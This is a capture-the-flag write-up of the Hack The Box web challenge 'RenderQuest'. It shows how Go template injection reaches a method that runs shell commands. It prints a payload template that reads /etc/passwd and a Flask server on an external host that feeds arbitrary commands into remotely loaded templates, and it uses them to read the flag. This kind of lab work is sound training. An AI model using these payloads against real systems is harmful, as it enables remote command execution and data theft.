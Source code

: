 # HTB-Challenges-Web-RenderQuest

## Challenge Description
You've found a website that lets you input remote templates for rendering. Your task is to exploit this system's vulnerabilities to access and retrieve a hidden flag. Good luck!

![localhost_1337_render_page=index tpl](https://github.com/patzj/HTB-Challenges-Web-RenderQuest/assets/10325457/34b7c072-9193-45bc-863f-accc84062311)

## Reconnaissance
At first glance, the application did not seem very intuitive to me. Furthermore, all the application codes were contained in a single file, making it quite intimidating. However, upon carefully reading the text within the application, I realized that the application could supply specific data to a given template. Once I grasped this concept, I understood how to exploit the application—specifically, through Remote Code Execution (RCE) via Server-Side Template Injection (SSTI).

While going through the code, two notable functions made it more evident that SSTI is the vulnerability to exploit. The first one is `FetchServerInfo`. This function strongly suggests RCE as it runs shell scripts. The other one is `isSubdirectory`, which makes it difficult, if not impossible, to perform directory traversal and gain access to the flag.

```go
func (p RequestData) FetchServerInfo(command string) string {
	out, err := exec.Command("sh", "-c", command).Output()
	if err != nil {
		return ""
	}
	return string(out)
}
```

```
func isSubdirectory(basePath, path string) bool {
	rel, err := filepath.Rel(basePath, path)
	if err != nil {
		return false
	}
	return !strings.HasPrefix(rel, ".."+string(filepath.Separator))
}
```

The template engine used is `html/template`, with which I am not familiar. Consequently, I immediately turned to Google and conducted a search for "Golang html/template vulnerabilities", leading me to this insightful blog post: https://www.onsecurity.io/blog/go-ssti-method-research/. From there, I acquired knowledge on how to access the properties of the object supplied to the template. Additionally, I discovered that I can execute methods from the template using the following notation: `{{.MethodName "args"}}`.

Luckily for me, the object that gets supplied to the template is the one that can invoke `FetchServerInfo`. So the next thing to do is to test this concept.

## Scanning
Next, I need to show that I can make a simple example to prove I can run any code using a malicious template. I'm creating a file named `evil.tpl` and hosting it locally using `python3 -m http.server`. The template is now accessible on any interface at port 8000. As I'm utilizing Docker to test the application, I'm using the IP assigned to my Docker interface — http://172.28.80.1:8000/evil.tpl.

```tpl
<p>{{.ClientIP}}</p>
<p>{{.ClientUA}}</p>
<p>{{.FetchServerInfo "cat /etc/passwd"}}</p>
```

The following step involves entering the link to the "evil" template into the application's user input.

![localhost_1337_render_use_remote=true page=http___172 28 80 1_8000_evil tpl](https://github.com/patzj/HTB-Challenges-Web-RenderQuest/assets/10325457/342f376b-1095-4217-be01-49d1fa9c3505)

## Exploitation
Based on my prior experience with a different system, I held the belief that establishing a connection back to my local server might not be feasible. As a solution, I set up a Flask application on https://www.pythonanywhere.com/ designed to provide a template customized for accepting commands through query parameters. This allows me to issue any valid commands without the need to alter the server codes.

```py
from flask import Flask, Response, request

app = Flask(__name__)

@app.route('/')
def rce():
    cmd = request.args.get("cmd")
    payload = '{{.FetchServerInfo "' + cmd + '"}}'
    mimetype = 'application/vnd.groove-tool-template'
    return Response(payload, mimetype=mimetype)


# https://<user>.pythonanywhere.com/?cmd=<shell commands here>
```

Let's check the files in the current directory by using the application's form input: `https://<user>.pythonanywhere.com/?cmd=ls+.`.

![localhost_1337_render_use_remote=true page=https___user pythonanywhere com__cmd=ls+](https://github.com/patzj/HTB-Challenges-Web-RenderQuest/assets/10325457/8f8162e0-a07e-44de-a2ad-84fada2a47a0)

The flag isn't here, so let's navigate one level up: `https://<user>.pythonanywhere.com/?cmd=ls+..`.

![localhost_1337_render_use_remote=true page=https___user pythonanywhere com__cmd=ls+](https://github.com/patzj/HTB-Challenges-Web-RenderQuest/assets/10325457/f12b351e-4de6-4fb3-9af4-e8feba220bbf)

I've located the flag! It's important to mention that the flag name may differ, so exploring through the system is the key to finding it. Now, the final step is to reveal its content using `https://<user>.pythonanywhere.com/?cmd=cat+../flag7775f83d88.txt`.

![localhost_1337_render_use_remote=true page=https___user pythonanywhere com__cmd=cat+ _flag7775f83d88 txt](https://github.com/patzj/HTB-Challenges-Web-RenderQuest/assets/10325457/880d976e-09f8-4832-87fc-ff8bbc55ca4c)

Flag successfully captured!

## Post-Exploitation
